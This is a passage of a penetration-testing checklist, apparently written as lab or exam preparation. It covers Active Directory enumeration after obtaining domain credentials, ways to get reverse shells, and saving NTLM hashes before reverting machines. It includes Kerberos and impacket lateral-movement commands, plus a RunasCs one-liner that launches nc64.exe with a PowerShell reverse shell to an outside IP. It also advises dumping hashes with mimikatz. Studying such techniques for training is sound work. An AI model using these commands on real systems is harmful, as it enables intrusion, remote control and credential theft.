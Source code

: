 ## ☑️ Things to do after getting a domain credential [Checklist]

- Dump AD information with ldapsearch. I personally like: **ldeep** tool
- Use **bloodhound-python** to collect the bloodhound data from AD
- Run **enum4linux-ng** with those creds and access listed shares
- Run **nxc-auto** custom tool to automate the enumeration for SMB and LDAP protocol with NetExec [(gist) (↗)](https://gist.github.com/VasanthVanan/a55048e34938ebcdbfb6ff9a6a13bfcb). You can also refer later for screenshots.
- Configure Kerberos (**/etc/krb5.conf**) in Linux and try the following:

```
kinit user # type password. get TGT / TGS  
# or convert the given kirbi ticket to ccache and export it  
export KRB5CCNAME=ticket.ccache  
kvno MSSQLSvc/MSSQL.sccm.lab:1433 # get Service Tickets  
  
# use it any of the impacket tools if you had necessary permissions  
impacket-psexec -k -no-pass sccm.lab/dave@dc.sccm.lab -dc-ip $DCIP  
impacket-smbexec -k -no-pass sccm.lab/dave@dc.sccm.lab -dc-ip $DCIP  
impacket-wmiexec -k -no-pass sccm.lab/dave@dc.sccm.lab -dc-ip $DCIP
```

- If you have a domain credential but pwned a non-domain joined machine, use runas.exe / RunasCS.ps1 to get a interactive shell from a domain user. (you can also use PS remoting)

```
Invoke-RunasCs domain\user password "C:\Users\Public\nc64.exe 192.168.45.166 443 -e powershell" --force-profile --logon-type 2
```
## ☑️ Things to do to get a Reverse Shell [Checklist]

- Start with ports 443 / 80
- If that’s not working, target the port numbers that are opened (example: If you see a HTTP server at 24322, use that as your listener port).
- If that’s not working, **encode the payload** in some form (base64)
- If that’s hard, use mkfifo / python / python3 to get one
- Use **msfvenom** to generate payloads based on architecture (x86/x64)
- For Windows, try getting **ConPtyShell** interactive shell (Thanks, Rachit Arora for this suggestion)
- Use **Invoke-PowerShellTcpOneLine.ps1** from the Nishang repository
- One Last Hope: **revshells.com**

## ☑️ Things to do before Reverting Machines

- You may have successfully pwned MS01 and MS02, but if you wish to revert the machine at that instant for any reason, all your existing shell will be lost, any overwritten binaries / changed passwords will be reverted, and you will have to go through the initial access all over again. However, one thing that does not change is the assigned **NTLM hashes**. so, before reverting MS01 / MS02, make sure to dump the hashes using **secretdump** / **mimikatz** with the administrator account to skip the initial access line and directly access it through Evil-WinRM / RDP. This way, you can save energy and time!
- Also, the intercepted web request in the Burp suite used for replaying the reverse shell attack may not change often unless the webserver uses some form of cookies, session or CSRF token. So, if connections drop / the machine is reverted, check the repeater tab in the burp suite and request again to save time.
